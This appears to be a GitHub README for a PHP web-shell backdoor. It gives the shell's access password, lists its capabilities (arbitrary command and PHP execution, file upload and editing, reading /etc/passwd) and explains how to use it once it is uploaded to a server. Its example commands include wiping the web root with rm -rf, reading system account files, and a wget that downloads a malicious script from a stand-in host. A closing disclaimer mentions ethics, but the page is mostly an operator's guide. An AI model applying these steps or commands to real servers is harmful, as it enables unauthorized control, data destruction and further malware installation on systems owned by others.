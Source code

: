 ### PHP RootKit Backdoor – Features & Security Risks

## Password:
```bash
R00t
```

#### Overview

This PHP backdoor script provides full control over a web server once deployed. **It is a malicious tool** that allows unauthorized access and remote command execution.

#### Features & Functions:

- **Password-Protected Access:** Requires a predefined password for login.
- **File Manager:** View, create, edit, and delete files.
- **Command Execution:** Run system commands using `shell_exec()`.
- **PHP Code Execution:** Execute arbitrary PHP scripts via `eval()`.
- **File Upload:** Upload files to the server.
- **Sensitive File Access:** Read system files like `/etc/passwd`.

#### Usage (Theoretical)

Once uploaded to a server, this script can be accessed via a browser:

1. Navigate to the script URL.
2. Enter the password to gain access.
3. Execute commands, manage files, and exploit the server.

#### Example Commands:

```bash
ls -la  # List directory contents
cat /etc/passwd  # View system user accounts
rm -rf /var/www/html/*  # Delete all web files (dangerous)
wget http://malicious.com/malware.php -O /tmp/m.php  # Download a malicious script
php -r "system('whoami');"  # Check user permissions
```

#### Warning & Ethical Considerations

**Using such scripts for unauthorized access is illegal.** Ethical hackers and security researchers analyze these abilities to strengthen web security. If found on a system, **remove it immediately** and implement stronger security measures.
